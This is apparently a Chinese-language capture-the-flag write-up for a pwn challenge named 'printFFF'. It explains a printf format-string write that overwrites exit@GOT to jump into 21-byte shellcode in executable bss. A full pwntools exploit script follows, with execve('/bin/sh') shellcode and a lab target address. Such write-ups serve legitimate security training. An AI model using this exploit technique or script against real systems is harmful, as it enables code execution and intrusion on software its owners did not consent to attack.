

# printFFF

> what about "*" print?

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

程序一开始向rwx的bss上读入一段shellcode，只有21字节。
然后输入2个值和写指针类型。设置第一个值为`0x5000`，第二个值为`0x404040(exit@GOT)`，
在设置第三个值为`2`，这样最后`printf`运行结果是将0x5000作为宽度打印字符，
然后认为`0x404040`为`short *`，将0x5000写入进去。

```plaintext
printf("%*6$c%7$n", ?, ?, ?, ?, ?, 2, 0x5000, 0x404040)
==
printf("%20480c%7$hn", ...)

exit@GOT => 0x401080(.plt) -> 0x405000(.bss)
```

退出时由于`exit@GOT`处写了`0x405000`，即shellcode的起始地址，
就会运行到shellcode。经检查，rdx是0，可以省去`xor edx, edx`，使得shellcode短于21字节，
拿到shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './printFFF'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x405000')
    else:
        sh = remote('10.1.101.103', 9999)
    elf = ELF(EXE)
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    syscall
    '''
    sh.send(asm(shell))
    if lo & 2:
        pause()
    else:
        sleep(0.125)
    sh.send(p64(0x5000) + p64(elf.got['exit']) + p64(2))

    sh.clean()
    sh.interactive()
    sh.close()
```


